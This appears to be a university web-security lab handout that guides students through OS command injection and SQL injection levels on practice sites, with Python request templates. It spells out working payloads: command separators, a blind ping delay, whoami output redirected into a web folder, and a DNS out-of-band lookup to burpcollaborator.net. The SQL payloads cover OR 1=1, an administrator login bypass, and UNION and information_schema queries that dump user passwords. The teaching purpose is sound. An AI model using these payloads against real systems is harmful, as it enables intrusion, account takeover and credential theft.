



simple
Visit the site and navigate to a product. At the bottom of the page, there is a "Check stock" button which initiates a query that returns the inventory of the product. Bring up the Developer Tools on the product page, then click the "Check stock" button. Examine the network request, its headers and its form submission body. Identify the URL for the POST and the names of the fields in the form submission.

We can recreate this request using a Python script similar to the one below. Fill in the missing parameters and run the script. Ensure that you obtain the same result.
# <FMI> (Fill Me In) denotes a field you must modify
s = requests.Session()
stock_post_url = <FMI>
post_data = {
'<FMI>' : '<FMI>',
'<FMI>' : '<FMI>'
}
resp = s.post(stock_post_url, data=post_data)
print(resp.text)The fields in this query are directly sent to an underlying operating system command, making the site vulnerable to an OS command injection attack. Using modifications to the script, attempt to use one of the command separators (e.g. a ';', '|', or other separators) to force the server to return the output of the date command back through the stock post.
- Take a screenshot for your lab notebook of the output
Due to the simplicity of the level, one can also exploit it directly within Developer Tools. We will now repeat the exploit in order to exfiltrate the vulnerable shell script that we are injecting into. To begin with, right click the "Check stock" button and "Inspect" it.

Then, in the form input fields, double-click the option value to append to the store identifier a semicolon that ends the command the value is used in followed by an ls command. Once modified, go back to the page and click the "Check stock" button to send the modified parameter. A directory listing should appear. Edit the option value again to instead run the cat command in order to return the contents of the shell script on the web page similar to that shown below

- Take a screenshot for your lab notebook of the output
Finally, finish the level by running the command that identifies the username of the account running the web site. For your reference, a list of common commands for Linux and Windows is given below:
Purpose of command | Linux | Windows |
Name of current user |
|
|
Operating system |
|
|
Network configuration |
|
|
Network connections |
|
|
Running processes |
|
|
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
blind-time-delays
Web applications may be written in a way that the results of a command are not directly returned. 'Blind' attacks allow an adversary to learn whether a web site contains a command injection vulnerability via other means. One way to do so is to inject a command that results in a delay in the processing of the request. For example, if one is able to successfully inject a 'sleep 5', the web application will pause for 5 seconds before returning a response, thus revealing that the application contains the vulnerability.
In this level, the feedback form has a command injection vulnerability. To begin with, visit the web site and then visit the "Submit feedback" page. Bring up Developer Tools, fill out the form, and then submit it. In Developer Tools, examine the network request URL along with the form submission data that is sent. Click on the "Response" to see the two characters that are returned from the server upon a successful submission.

The Python script below can be adapted to submit this request as well. Modify the fields based on this request and run the script, ensuring you can properly post to the form with the same response.
s = requests.Session()
feedback_url = <FMI>
resp = s.get(feedback_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
feedback_submit_url = <FMI>
post_data = {
'csrf' : csrf,
'name' : '<FMI>',
'<FMI>' : '<FMI>',
'<FMI>' : '<FMI>',
'<FMI>' : '<FMI>'
}
resp = s.post(feedback_submit_url, data=post_data)
print(resp.text)The e-mail field in the form submission is vulnerable to blind command injection. To demonstrate this, inject a 10-second ping command with the -c flag into the e-mail parameter. For this particular injection, you will need to employ the boolean || operator around the command to inject it successfully (e.g. || ping -c 10 127.0.0.1 || ). Submit the feedback to cause a delay on the server in order to solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
blind-output-redirection
Another way to perform blind command injection is to use the injection to issue a command that writes to the file system. If an adversary can create a file within the web server that can then be subsequently downloaded or if the adversary can subsequently cause an error that results in sensitive data being sent to a log file that can be downloaded, data exfiltration can occur.
For example, in the previous level, we performed a ping command, but did not save its output. One can use file system redirection in the shell (e.g. >) to take the output of a command and put it in a web-accessible location. To solve the level, exfiltrate the username of the account running the web site by first executing the whoami command and redirecting it to a file in a directory from which images are served (e.g. || whoami > /var/www/images/output.txt || ). Then, access that file at ( /image?filename=output.txt )
- What is the username that runs the site?
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
blind-out-of-band
Similar to redirection to a file, an adversary can also trigger a network request that can be seen by the adversary. For example, if the attacker controls the domain foo.com and wants to exfiltrate a password, a request to password.foo.com will reveal it. This technique belongs to a general class of "out-of-band" attacks.
Repeat the blind attack on the feedback submission form, but do so by injecting a command in the email parameter that triggers a name lookup on any subdomain of burpcollaborator.net. A successful lookup will automatically solve the level. In real life, an adversary would monitor the other end of the DNS request to pull the exfiltrated data out of the network.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
retrieve-hidden-data
In SQL injection attacks, user input is used directly in the construction of a subsequent SQL query string sent to the database. The first step of any SQL injection attack is to identify the syntax being used to construct the SQL string and to break it. Strings are typically denoted in a programming language via the single-quote or the double-quote character. One of the strategies an automated scanning tool such as sqlmap will do is try out these characters all over a web application to see if anything breaks.
In this level, we are given an example of the SQL statement that is used to query the backend database:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
Note that the category string is denoted with single-quotes.
Visit the level's web site and click on the Gifts category. Note that if the category does not exist on your level, you can replace Gifts with an alternate one for this and subsequent levels.
View the category string that appears in the URL. The program below performs the same request as above. Note that for the category string we use triple double-quotes to denote the string so that we do not have to escape out the single-quote or double-quote characters when attempting to perform the SQL injection attack. Run the program and ensure you obtain the same output.
def try_category(category_string):
url = f'https://{site}/filter?category={category_string}'
resp = s.get(url)
print(resp.text)
s = requests.Session()
try_category("""Gifts""")Go back to the web site and select the Gifts category. In the URL, replace Gifts with a double-quote character and load the resulting page.
- Take a screenshot of the output.
Then, replace the category string with a single-quote character and load the resulting page.
- What output is returned?
Re-run the Python script above using a single-quote character as the category to ensure you obtain the same output.
try_category("""'""")The canonical SQL injection attack breaks SQL query syntax and then uses a disjunction on a predicate that is always True to return all rows in a table. In this example, we can return all Gifts (not just the released ones) by performing sending the category Gifts' OR 1=1 -- . The single-quote after the Gifts breaks the query string's syntax allowing the disjunction and the always True predicate (OR 1=1) to trigger to be included in the SQL query. This is followed by the comment characters for SQL (--) which causes the rest of the query string to be ignored by the backend (including the single-quote that closes the category string in the application itself). The statement that is then sent to the SQL database is shown below:
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- ' AND released = 1
Modify the Python script above with the appropriate string to solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
login-bypass
One of the more devastating uses for a SQL injection attack is to obtain unauthorized access to an account. This happens when the login form that implements authentication contains a SQL injection vulnerability. Visit the web site and go to the Login page.
Using the method from the previous level, attempt to use either the single-quote or double-quote to break syntax on the two fields of the form. Answer the following questions:
- Is the username field vulnerable to SQL injection? If so, what character breaks syntax?
- Is the password field vulnerable to SQL injection? If so, what character breaks syntax?
Using the Python script template below, modify it to log in as administrator with a password of foo. The code performs the login and then uses Python's walrus operator (:=) to check to see if the response has a <p> tag with an 'is-warning' class in it. The walrus operator assigns the result to warn if so. The program then prints the text attached to warn if it exists. A successful login will not return this tag, causing the script to simply print the entire response.
s = requests.Session()
url = f'https://{site}/login'
resp = s.get(url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
logindata = {
'csrf' : csrf,
'username' : """<FMI>""",
'password' : """<FMI>"""
}
resp = s.post(url, data=logindata)
soup = BeautifulSoup(resp.text,'html.parser')
if warn := soup.find('p', {'class':'is-warning'}):
print(warn.text)
else:
print(resp.text)Modify the script to perform a SQL injection on the username field that allows you to login as the administrator user.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
A SQL injection vulnerability is a doorway that allows an adversary to pull arbitrary information out of the backend database. Key to an adversary's approach is the use of SQL's UNION keyword that instructs SQL to combine table results together.
determine-number-of-columns
Tables can only be combined with the UNION keyword if they have an identical number of columns. For example, in the query below, the * denotes that all columns of the products table are returned in the query. If we wish to append another table to these results, we must ensure it has the same number of columns as the products table does.
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
This level can be solved by determining the number of columns in the products table via a brute-force attack that uses a UNION to create a table with a single row of nulls as columns. This table is then appended to the original results. We can vary the number of columns in the table and observe which query succeeds to identify the number of columns in the products table. Adapt the Python script for injecting into the category string to run the following queries in order to determine the number of columns.
try_category("""Gifts' UNION SELECT null -- """)
try_category("""Gifts' UNION SELECT null,null -- """)
try_category("""Gifts' UNION SELECT null,null,null -- """)
try_category("""Gifts' UNION SELECT null,null,null,null -- """)
- How many columns does the products table contain?
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
find-column-containing-text
Because SQL schemas specify strongly typed data, when performing the UNION operation, the two tables must have compatible types in their columns. While in the previous level, we use null values that are compatible with all SQL data types, if we wish to retrieve actual data from the database via the UNION, we must make sure the types in the columns we select match.
After determining the number of columns in a table, we can then use a brute-force attack via UNION queries to identify the data type of each column being returned in a particular query. Consider the UNION in the previous level and assume that the number of columns is 2. In order to test if the first column in the table has a string data type associated with it, we could inject the payload below and see if it returns hello as part of the results.
Gifts' UNION SELECT 'hello',null --
Then, to test if the second column in the table has a string data type, we could inject the following instead and see if it returns hello.
Gifts' UNION SELECT null,'hello' --
Using this technique, the level asks you to use the SQL injection to pass back a particular hint string. The hint can be retrieved via parsing the level's web site:
url= f'https://{site}/'
resp = s.get(url)
soup = BeautifulSoup(resp.text,'html.parser')
hint_text = soup.find(id='hint').get_text().split("'")[1]
print(f"Database needs to retrieve the string {hint_text}")One can then use the code from the previous level, to then include the hint in subsequent queries:
' UNION SELECT '{hint_text}',null,null, ... --
' UNION SELECT null,'{hint_text}',null, ... --
' UNION SELECT null,null,'{hint_text}', ... --
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
retrieve-data-from-other-tables
A SQL injection vulnerability is a doorway that allows an adversary to access arbitrary information from other tables. In the category example used previously, we have identified a column in the original query that contained a string. We can now perform a UNION on a different table to return its data alongside the product data. Consider a category query into the products table that only returns two columns containing strings: one for the product's name and one for the product's description. A SQL query to return all products might then contain:
SELECT name,description from products WHERE category = 'Gifts'
If we wish the query to return all username and password values from the table users, we could perform an injection onto the category string that does so using the UNION.
' UNION SELECT username,password from users --
This leads to the query below being executed:
SELECT name,description from products WHERE category = 'Gifts' UNION SELECT username,password from users --
Perform this injection to solve the level. Although it is easiest to pull out the administrator password manually, the Python code below parses the table that is returned and pulls out the administrator credentials automatically.
soup = BeautifulSoup(resp.text,'html.parser')
user_table = soup.find('table').find_all('tr')
admin_entry = [r.find('td').contents for r in user_table if 'administrator' in r.find('th')]
admin_password = admin_entry.pop().pop()- Take a screenshot showing completion of the level that includes the level URL and your OdinId
querying-database-version-mysql-microsoft
An attacker will often perform reconnaissance on a backend database server to find the database software it is running and its version. Special database-specific directives in SQL can be used to return this information. In this case, the @@version directive will output this information. An example that you will need to modify is shown below. Note that a trailing space must be included after the comment character for MySQL database backends.
Gifts' UNION SELECT @@version, ... --
Modify this example to obtain the version of the database server that is running.
- What is the version number of the database?
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
listing-database-contents-non-oracle
One of the issues for the attacker in attempting to perform a SQL injection attack is discovering the names of the tables and columns in the database. Fortunately for attackers, database vendors often make it easy for them to discover this metadata information by implementing well-known tables containing global information about the database. On MySQL and Microsoft SQL servers, a metadata database called information_schema contains table and column information about what it stores. This can be leveraged to turn a simple SQL injection into a full account compromise.
As before, we start with an injection vulnerability on the category parameter. Our first task is to probe the site to determine the number of columns in the underlying query that are returned as well as their data types. This allows us to target a UNION that returns a compatible table.
Gifts' UNION SELECT null -- Gifts' UNION SELECT null,null --
Once we obtain the number of columns, we can then attempt to perform a UNION that retrieves the names of tables (table_name) via the information_schema.tables table. For example, if the number of columns is 3 and the first column returned is known to be a string, the following query would list all of the table names on the server. Note that for clarity of output, we can drop the initial query string (Gifts).
' UNION SELECT table_name,null,null from information_schema.tables --
Adapt the query to find the name of the users table in the database. You may use the Python snippet below that utilizes the regular expression package re to extract the name of the users table programmatically.
import re
soup = BeautifulSoup(resp.text,'html.parser')
user_table = soup.find('table').find('th',strin=re.compile('^users')).text
print(f"Found user table of {user_table}")- Take a screenshot of the results showing the name of the user table
While we now have the name of the user table, we now need to identify the column names for both the usernames and passwords in this table. This can be done by leveraging the information_schema.columns table. As before, if the vulnerable SQL query has 3 columns that are strings, the query below will then return the names of each column in the user_table.
' UNION SELECT column_name,null,null from information_schema.columns WHERE table_name='{user_table}' --
We can easily parse the column names from the output that is returned by the query.
soup = BeautifulSoup(resp.text,'html.parser')
print(resp.text)
username_col = soup.find('table').find('th',text=re.compile('^username')).text
password_col = soup.find('table').find('th',text=re.compile('^password')).text
print(f"Found username column of {username_col}")
print(f"Found password column of {password_col}")- Take a screenshot of the results showing the column names of the user table.
Now that we know the user table name and the names of its columns, we can now dump the entire database of users via a query similar to below:
' UNION SELECT {username_col},{password_col} from {user_table} --
- Take a screenshot of the results showing all of the users and their passwords for the site.
Then, use the administrator account to log in and complete the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId